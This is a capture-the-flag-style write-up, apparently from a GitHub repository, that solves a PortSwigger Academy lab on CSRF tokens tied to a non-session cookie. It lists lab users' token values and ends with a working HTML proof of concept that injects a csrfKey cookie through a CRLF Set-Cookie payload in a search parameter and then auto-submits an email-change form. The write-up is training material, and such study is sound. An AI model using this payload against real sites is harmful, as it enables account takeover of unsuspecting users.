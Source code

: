 ## Lab Description: CSRF where token is tied to non-session cookie 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b19ba3ae-575d-407c-9929-704389e773b0)


## Solution

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/09d2716c-58a9-4ad8-93b6-af2febc8a33e)


For User Wiener 

csrf: gDbE9aGELpWRSrZzpZEKiBbylXUETUFq
csrfkey: LbMYzTBNpxwMUXksBmrOjPbthEd8Na4f

For User Carlos 

csrf: OVfPpgEizfZ5aZBoTEsroDPgKMNt3YM4
csrf Key: 24uBgd1HRRlHUII7bYBNz7F1lVekHYDc

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8bd8fe0b-5e4a-4a9e-a484-5061cafc35a6)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6ad8180c-31df-4fdf-b21e-762a9e349ea4)

we are able to change the email test@3123@gmail.com

In order to exploit this vulnerability we need to perform 2 things: 
- Inject a csrfkey cookie in the user session
- Send a csrf  attack to the victim with a known a csrf token

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/21cf1671-4f61-4f81-987f-46b9628f543d)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/614289c9-9d8e-4f47-b3f1-18ee06cd50e8)



we have to add csrf key in request 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/53c90d0f-f534-42a2-8892-2cdf7849f8d0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1cc784c3-31e6-48fa-b0ce-5b97dba3970f)



```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');</script>
    <form action="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hii45&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="tUPKneNhIgQi2QfZI41tvlsVR6e53bh4" />
      <input type="submit" value="Submit request" />
    </form>
  <img src="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/?search=hey%0d%0aSet-Cookie:%20csrfKey=SQFZcaxFoVU3URyQrh2buswScSlxyapG%3b%20SameSite=None" onerror="document.forms[0].submit()">
 </body>
</html>

```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c21c852a-8c07-4bef-9760-37ebb0fd3daf)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b19c82f4-c9af-4d10-8528-413e64c64b36)


